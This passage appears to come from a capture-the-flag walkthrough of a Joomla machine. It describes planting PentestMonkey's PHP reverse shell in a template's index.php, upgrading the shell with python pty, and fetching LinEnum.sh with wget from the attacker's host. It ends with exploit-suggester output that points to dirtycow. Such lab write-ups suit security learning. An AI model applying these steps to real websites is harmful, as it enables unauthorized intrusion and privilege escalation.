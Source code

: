 ![Imgur](https://i.imgur.com/28njP89.png)
## REVERSE SHELL
How to get reverse shell now? Googling I came across a reverse shell injection method in the Joomla template. Do you remember the gobuster results? There was also a folder /templates in them. I come across this reverse shell example [PentestMonkey_Reverse-Shell] (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

We are changing the content of ```index.php```for the main template in this case (Protostar). Let's remember to change ip to ours: P

![Imgur](https://i.imgur.com/Htug6TJ.png)

The next time you go to the main page, you get a reverse shell

I improve with "python -c" import pty; pty.spawn ('/ bin / bash') "

Nothing catches the eye, so I'm going to send the script ```LinEnum.sh```to the reverse shell.

I will do this with SimpleHTTPServer while I already have the script in the same directory.
```bash
$ python -m SimpleHTTPServer
```
On the reverse-shell, in the / tmp directory, I do a simple wget.
```bash
wget 192.168.56.103:8000/LinEnum.sh
```
## EXPLOITATION
### LINUX-EXPLOIT-SUGGESTOR
The script did not produce revealing results. There is another enumeration script called ```linux-exploit-suggestor```
```bash
$ ./linux-exploit-suggester.sh

Available information:

Kernel version: 4.4.0
Architecture: i686
Distribution: ubuntu
Distribution version: 16.04
Additional checks (CONFIG_ *, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

74 kernel space exploits
45 user space exploits

Possible Exploits:

cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
```